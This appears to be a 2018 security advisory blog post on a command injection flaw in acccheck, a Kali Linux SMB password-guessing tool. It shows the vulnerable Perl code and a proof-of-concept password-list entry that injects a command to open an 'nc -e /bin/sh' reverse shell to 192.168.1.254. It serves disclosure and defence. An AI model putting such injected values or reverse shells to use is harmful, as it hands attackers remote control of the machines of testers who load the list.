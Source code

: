 ```yaml
---
layout: post
title:  "Never trust the password lists"
date:   2018-06-13 00:00:00 +0100
categories: 
permalink: /acccheck-command-injection
---
```


# Never trust the password lists

## Summary

Penetration testers often download password lists from external sources to use them in their bruteforcing tools. A very quick audit of some bruteforcing tools provided with Kali Linux show that a few of them show vulnerabilities where using maliciously crafted password lists could be dangerous.

`acccheck` is one of these tool, which is vulnerable to command injection.

Penetration testers should always audit their username and password bruteforcing lists before using them.

## Description

From the source code: 

```
Attempts to connect to the IPC$ and ADMIN$ shares depending on which flags have been
chosen, and tries a combination of usernames and passwords in the hope to identify
the password to a given account via a dictionary password guessing attack.
```

The tool can be obtained at [https://labs.portcullis.co.uk/tools/acccheck/](https://labs.portcullis.co.uk/tools/acccheck/).


## Vulnerability

The tools is vulnerable to command injection due to a lack of sanitization of user input.

By feeding a specific user or password list, arbitrary code can be executed.

Example of vulnerable code:

```
foreach $singlePass (@PASS_LIST)                                          
      {                                                                         
        chomp($singlePass);                                                     
        output("Host:$singleIp, Username:Administrator, Password:'$singlePass'");
        $connectValue = system("smbclient \\\\\\\\$singleIp\\\\admin\$ -U Administrator%'$singlePass' -c 'exit' 1> /dev/null 2> /dev/null");
```

$singlePass and $singleIP are retreived from the username and password file.

## Proof of concept

```
root@kali:~# cat passwords.txt 
admin
test
';printf 'nc -e /bin/sh 192.168.1.254 80' > /tmp/pwned ; sh /tmp/pwned & #
```

```
root@kali:~# acccheck -t 192.168.1.1 -P passwords.txt
```

## Recommendations

1. Usernames and passwords provided per lists should be correctly escaped before inserted in the prepared statement.

2. Username and password lists from unknown sources should never be trusted and always be audited before use.
